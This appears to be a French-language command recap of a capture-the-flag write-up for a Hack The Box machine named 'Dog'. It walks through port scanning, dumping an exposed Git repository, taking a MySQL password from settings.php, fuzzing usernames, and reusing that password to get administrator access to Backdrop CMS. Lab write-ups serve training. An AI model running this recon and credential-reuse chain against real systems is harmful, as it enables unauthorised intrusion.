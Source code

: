 
## 📝 Récapitulatif des commandes

### 🔍 Phase 1 : Reconnaissance réseau

```bash
# 1. Scan rapide de tous les ports
nmap -Pn -p- --min-rate=1000 -T4 10.10.11.58

# 2. Scan détaillé des ports ouverts
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.58 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -Pn -p$ports -sC -sV 10.10.11.58
# → Ports 22 (SSH) et 80 (HTTP) ouverts
```

### 🧩 Phase 2 : Extraction dépôt Git

```bash
# 1. Installation de git-dumper
python3 -m venv env
source env/bin/activate
pip install git-dumper

# 2. Extraction du dépôt
git-dumper http://dog.htb/ dump

# 3. Restauration des fichiers
cd dump
git restore .

# 4. Analyse du fichier settings.php
cat settings.php
# → Credentials MySQL : root:BackDropJ2024DS2024
```

### 🔎 Phase 3 : Énumération utilisateurs

```bash
# Fuzzing des utilisateurs via aliases Backdrop
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
-u "http://dog.htb/?q=accounts/FUZZ" -mc 403
# → Utilisateurs trouvés : john, tiffany
```

### 🔓 Phase 4 : Connexion Backdrop CMS

```bash
# Test de réutilisation de mot de passe
# URL : http://dog.htb/user/login
# Utilisateur : tiffany
# Mot de passe : BackDropJ2024DS2024
# → Accès administrateur obtenu !
```
